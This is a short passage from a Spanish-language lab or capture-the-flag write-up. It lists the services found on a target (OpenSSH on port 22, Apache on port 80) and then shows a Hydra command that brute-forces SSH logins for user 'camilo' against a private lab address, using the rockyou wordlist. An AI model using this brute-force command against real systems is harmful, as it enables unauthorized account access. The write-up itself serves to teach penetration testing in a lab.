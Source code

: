 ![Servicios Detectados](/Vacaciones/Imagenes/Servicios.jpeg)

---

# 📋 **Resumen de Servicios Detectados**

| Servicio | Puerto | Versión                        |
|:---------|:-------|:-------------------------------|
| SSH      | 22     | OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 |
| HTTP     | 80     | Apache 2.4.29 (Ubuntu)          |

---

## 🔓 **Ataque SSH con Fuerza Bruta**

### 4️⃣ Uso de Hydra

Realizamos un ataque de fuerza bruta al servicio SSH:

```bash
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t20
```

📸 **Captura:**  
![Hydra](/Vacaciones/Imagenes/Hydra.jpeg)
